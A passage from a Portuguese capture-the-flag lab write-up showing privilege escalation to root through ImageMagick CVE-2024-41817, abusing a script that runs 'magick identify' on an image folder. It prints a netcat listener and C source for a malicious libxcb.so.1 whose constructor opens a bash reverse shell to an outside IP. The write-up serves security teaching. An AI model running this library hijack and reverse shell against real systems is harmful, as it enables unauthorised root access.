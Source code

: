 ```text
...
/opt/app/static/assets/images
/opt/app/tickets
...
```

2. Ao explorar os diretórios /opt/scripts, podemos identificar um script.

```bash
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```

O script parece utilizar o ImageMagick para identificar imagens no diretórios `/opt/app/static/assets/images` e grava a saída no arquivo metadata.log.

## Escalação de Privilégios

4. Podemos verificar a versão do ImageMagick para procurar por vulnerabilidades. Pesquisando no google encontramos a CVE-2024–41817 que podemos utilizar para escalar privilégio e coletar a flag de root.

```text
Version: ImageMagick 7.1.1-35
```

Na nossa máquina local, iremos ficar escutando na porta 4444, pois é a porta que iremos configurar na biblioteca compartilhada que executará nossa shell reversa.

```bash
sudo nc -nlvp 4444
```

No diretório do nosso usuário "developer", iremos criar a biblioteca que nos concedera o acesso root.

```bash
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init() {
    system("/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.16.112/4444 0>&1'");
    exit(0);
}
EOF
```

Acesse o diretório de root e colete a flag.

## Conclusão

Este exercício demonstrou a exploração da vulnerabilidade de Path Traversal para extração de dados sensíveis e o aproveitamento de configurações vulneráveis do Gitea para escalonamento de privilégios. A exploração da vulnerabilidade no ImageMagick [CVE-2024-41817](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8) permitiu a execução de código levando a flag de root.
